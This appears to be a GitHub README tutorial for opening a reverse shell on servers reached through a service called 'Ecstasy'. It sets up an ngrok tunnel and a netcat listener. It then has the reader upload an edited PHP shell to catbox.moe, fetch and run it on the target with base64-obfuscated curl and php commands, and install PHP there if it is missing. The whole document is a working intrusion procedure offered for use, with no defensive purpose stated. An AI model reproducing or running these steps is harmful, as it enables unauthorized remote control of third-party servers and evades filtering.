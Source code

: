 # Simplest Reverse Shell Tutorial (Supports Some Linux and Some Windows Servers)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
```ngrok tcp 4444```


4. **Start Netcat**  
```nc -lvp 4444```


5. **Download and Edit PHP File**
   - [Download the PHP file](https://files.catbox.moe/s69sex.php) and edit the IP and port to be the Ngrok one.
   - Reupload the edited file to [catbox.moe](https://catbox.moe).

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL to Base64.

## In Game
7. **Copy and Paste the Command into Ecstasy**
   - While logged into Ecstasy, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
```curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)```


8. **Encode Filename and Extension to Base64**
   - Encode the filename and extension that catbox.moe gives in the URL to Base64.

9. **Run the PHP Script**
 ```php $(echo "{FILE NAME BASE64}" | base64 --decode)```
 - If there are errors, the server might not have PHP installed. See below for installation instructions.

## Install PHP on Linux Servers

**To get the distro, use the command:**
```cat /etc/os-release```

### Ubuntu/Debian
```apt install php```

### Fedora
```dnf install php -y```

### Arch
```pacman -S php```


# Duck Notes
[info](https://r2.e-z.host/1aef6b94-3653-4c51-8fef-6587df7580f5/qos28fmh.png)

